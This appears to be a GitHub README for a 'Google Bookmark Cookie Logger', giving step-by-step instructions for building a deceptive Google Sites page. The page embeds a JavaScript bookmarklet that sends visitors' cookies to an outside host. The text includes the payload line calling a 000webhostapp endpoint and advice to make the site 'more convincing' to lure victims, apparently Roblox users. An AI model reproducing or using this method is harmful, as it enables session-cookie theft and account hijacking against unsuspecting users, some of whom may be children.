 # Google-Bookmark-Cookie-Logger
Google Sites Bookmark Cookie Logger Method

1.Go to sites.google.com and make a new site

2.Go to <embed> and embed code

3. Paste the code from down below in

4.Delete PasteJavaHere and paste your own Javascript

(dont have a javascript?, go to https://robloxclothingbeta.000webhostapp.com/index.html click on the site and make one)

5. Delete the "" and replace with '' like this below
"xJavascript:$.get("//robloxclothingbeta.000webhostapp.com/api.php?id=123456")" to "xJavascript:$.get('//robloxclothingbeta.000webhostapp.com/api.php?id=123456')"

6. Hit ok design your site to make it more convincing, upload site and you are done!
